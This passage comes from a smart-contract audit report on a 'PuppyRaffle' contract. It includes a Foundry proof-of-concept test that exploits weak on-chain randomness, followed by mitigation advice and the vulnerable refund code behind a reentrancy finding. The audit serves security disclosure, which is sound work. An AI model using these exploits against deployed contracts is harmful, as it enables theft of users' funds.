 ```js
    }

    receive() external payable {}
}
```

2. Execute the attack using a unit test.

```js
    function testWeakRandomness() public playersEntered {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        address player = makeAddr("player");
        vm.prank(player);

        uint256 balanceBefore = player.balance;
        // current players length is 4
        uint256 playersLength = 4;

        // Run exploit contract
        WeakRandomnessContract target = new WeakRandomnessContract(address(puppyRaffle));
        (address[] memory newPlayers, uint256 fees) = target.getParameters(playersLength);
        target.attack{value: fees}(newPlayers);
        target.withdraw(player);

        uint256 balanceAfter = player.balance;
        assertGt(balanceAfter, balanceBefore);
    }
```

**Recommended Mitigation:**
To enhance security, refrain from relying on `block.timestamp`, `now`, or `blockhash` as sources of randomness. Instead, consider adopting the Chainlink VRF (Verifiable Random Function) for calculating randomness. [Chainlink VRF](https://docs.chain.link/vrf) is a reliable and verifiable random number generator, as documented in Chainlink VRF, offering a provably fair solution that doesn't compromise security or usability.

### [H-2] Reentrancy Issue in `PuppyRaffle::refund` Function Enables Unauthorized Drainage of Contract Balance

**Description:** The `PuppyRaffle::refund` function is susceptible to a reentrancy issue, enabling an attacker to repeatedly invoke other contract to call the function as long as the function execution is not reverted. This vulnerability arises from the absence of the `Checks-Effects-Interactions` (CEI) design pattern in the implementation of the function.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```
